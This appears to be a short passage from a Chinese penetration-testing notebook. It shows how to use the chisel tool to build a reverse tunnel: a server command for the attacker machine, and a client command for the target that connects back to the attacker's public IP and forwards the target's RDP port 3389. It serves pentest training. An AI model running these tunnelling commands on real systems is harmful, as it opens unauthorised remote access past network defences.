 	https://github.com/jpillora/chisel
	攻击机执行
	>chisel server -p 12138 –reverse
![image](/assets/Pentest_Note/master/img/182.png)

	靶机执行
	>chisel client 公网攻击机IP:12138 R:1234:127.0.0.1:3389
![image](/assets/Pentest_Note/master/img/183.png)

	建立成功后，攻击机连接本机1234端口即可访问靶机3389
![image](/assets/Pentest_Note/master/img/184.png)
